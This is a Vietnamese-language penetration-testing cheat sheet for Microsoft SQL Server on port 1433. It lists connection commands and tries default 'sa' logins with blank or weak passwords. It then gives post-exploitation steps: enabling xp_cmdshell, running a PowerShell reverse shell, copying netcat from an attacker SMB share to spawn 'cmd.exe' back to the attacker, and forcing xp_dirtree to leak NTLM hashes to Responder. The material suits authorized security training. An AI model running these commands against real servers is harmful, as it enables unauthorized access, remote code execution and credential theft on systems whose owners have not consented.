 # MSSQL (Port 1433)

## Connect

### sqlcmd

Kết nối tới máy chủ MSSQL từ xa với thông tin đăng nhập:

```
sqlcmd -S <ip> -U <username> -P
```

### mssqlclient.py

Sử dụng Impacket’s mssqlclient.py để kết nối với xác thực Windows:

```
python3 mssqlclient.py <username>:<password>@<ip> -windows-auth
```

### URL

Sử dụng chuỗi kết nối JDBC/ODBC để truy cập cơ sở dữ liệu từ xa:

```
jdbc:sqlserver://<ip>:1433;databaseName=<db>;user=<username>;password=<password>
```

***

## Attack Vectors

### Đăn nhập ẩn danh

Thử đăng nhập với tài khoản mặc định `sa` không có mật khẩu hoặc mật khẩu yếu:

```
sqlcmd -S <ip> -U sa -P ''
```

### Đăng nhập với thông tin mặc định

Thử các tài khoản/mật khẩu phổ biến như `sa` với `admin`, `password`:

```
sqlcmd -S <ip> -U sa -P admin
```

***

## Post-Exploitation

### Các lệnh MSSQL thông dụng

<table><thead><tr><th width="439">Command</th><th width="190">Description</th></tr></thead><tbody><tr><td>SELECT name FROM sys.databases;</td><td>Liệt kê database</td></tr><tr><td>SELECT table_name FROM information_schema.tables;</td><td>Liệt kê bảng</td></tr><tr><td>SELECT name FROM sys.sql_logins;</td><td>Liệt kê user</td></tr><tr><td>select IS_SRVROLEMEMBER ('sysadmin')</td><td>Check quyền của user</td></tr><tr><td>xp_dirtree \</td><td>Liệt kê file cần xem</td></tr></tbody></table>

### Thực thi mã từ xa qua xp\_cmdshell

Kích hoạt và sử dụng xp\_cmdshell để thực thi lệnh hệ thống:

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'powershell -c "<reverse_shell>"';
```

### Thực thi Reverse Shell

Sao chép và chạy netcat để tạo reverse shell:

```
EXEC xp_cmdshell 'copy \\<your_ip>\gabbar\nc.exe %temp%\nc.exe';
EXEC xp_cmdshell '%temp%\nc.exe -e cmd.exe <your_ip> <your_port>';
```

### Bắt hàm băm NTLM

Buộc MSSQL xác thực với SMB share giả mạo để bắt hàm băm NTLM:

```
EXEC MASTER.sys.xp_dirtree '\\<your_ip>\test', 1, 1;
```

Chạy Responder trên máy tấn công:

```
sudo responder -I tun0 -v
```